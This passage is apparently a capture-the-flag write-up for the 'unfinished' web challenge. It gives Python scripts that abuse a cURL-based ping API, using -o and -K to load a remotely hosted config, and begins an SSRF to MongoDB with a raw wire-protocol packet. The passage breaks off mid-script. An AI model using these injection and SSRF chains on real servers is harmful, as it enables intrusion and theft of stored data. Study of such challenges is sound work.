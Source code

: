You can pass in a URL and options to execute cURL, and the parameter check can be bypassed using config. First, download the config with `-o` and save it to a file named `GET`, and then use `-K` to use the config, like this:

``` py
import requests
import time

host = 'https://unfinished-27df3c439f8d6dd1.mc.ax'
hook_url = 'https://webhook.site/576f330a-c867-4609-b83f-36bbca32abfe'
config_url = 'https://gist.githubusercontent.com/aszx87410/a0a710f8bcc351958d107924632888c9/raw/54673c647da2ea04e90a1c67c7a40eb7e99320f6/test.txt'

def send_command(url, opt="", data=""):
  if opt == "":
    req_data = {
      "url": url
    }
  else:
    req_data = {
      "url": url,
      "opt": opt,
      "data": data
    }
  resp = requests.post(host + "/api/ping", data=req_data)
  print(resp.status_code)

send_command(hook_url)
time.sleep(5) # need to wait for server restart 

send_command(config_url, "-o", "GET")
time.sleep(5)

send_command(hook_url, "-K", "GET")
time.sleep(5)
```

But this is the easiest part. The hardest part is that the flag is stored in mongoDB, so you need to find a way to SSRF mongoDB using cURL.

Oh, by the way, you can't use gopher because it's disabled.

During the competition, I didn't know how to do it and couldn't solve it. After the competition, I looked at other people's solutions and found that you can use `telnet` to do it (source: https://discord.com/channels/805956008665022475/805962699246534677/1071901986338897982):

``` py
import requests
import time

url = 'https://unfinished-9044.mc.ax'

with open('raw_packet.txt', 'wb') as fout:
    fout.write(b'\x92\x00\x00\x00\x03\x00\x00\x00\x00\x00\x00\x00\xdd\x07\x00\x00\x00\x00\x00\x00\x00\x7d\x00\x00\x00\x02\x66\x69\x6e\x64\x00\x05\x00\x00\x00\x66\x6c\x61\x67\x00\x03\x66\x69\x6c\x74\x65\x72\x00\x05\x00\x00\x00\x00\x10\x6c\x69\x6d\x69\x74\x00\x01\x00\x00\x00\x08\x73\x69\x6e\x67\x6c\x65\x42\x61\x74\x63\x68\x00\x01\x10\x62\x61\x74\x63\x68\x53\x69\x7a\x65\x00\x01\x00\x00\x00\x03\x6c\x73\x69\x64\x00\x1e\x00\x00\x00\x05\x69\x64\x00\x10\x00\x00\x00\x04\xce\x2d\x77\x58\x58\xfd\x41\xc2\x98\xf9')

print('upload packet contents')
res = requests.post('%s/api/ping' % url, data = {
    'url': 'http://[...]/raw_packet.txt',
    'opt': '-o',
    'data': 'GET',
})
```